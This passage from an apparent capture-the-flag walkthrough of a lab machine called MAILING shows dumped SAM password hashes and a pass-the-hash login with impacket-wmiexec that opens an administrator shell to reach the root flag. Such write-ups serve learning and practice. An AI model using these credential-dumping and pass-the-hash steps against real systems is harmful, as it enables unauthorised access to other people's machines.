SMB         10.10.11.14     445    MAILING          WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e349e2966c623fcb0a254e866a9a7e4c:::                                                                                   
SMB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::                                                                                          
SMB         10.10.11.14     445    MAILING          maya:1002:aad3b435b51404eeaad3b435b51404ee:af760798079bf7a3d80253126d3d28af:::                                                                                                
SMB         10.10.11.14     445    MAILING          [+] Added 6 SAM hashes to the database
```

We will use the local administrator hash with the Impacket tool wmiexec to establish a remote connection to the target system with root privileges.

```
┌──(user㉿10)-[~]
└─$ impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"
Impacket v0.11.0 - Copyright 2023 Fortra
```


```
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>cd Users
C:\Users>cd localadmin
C:\Users\localadmin>cd Desktop
```
And we just found the root flag!
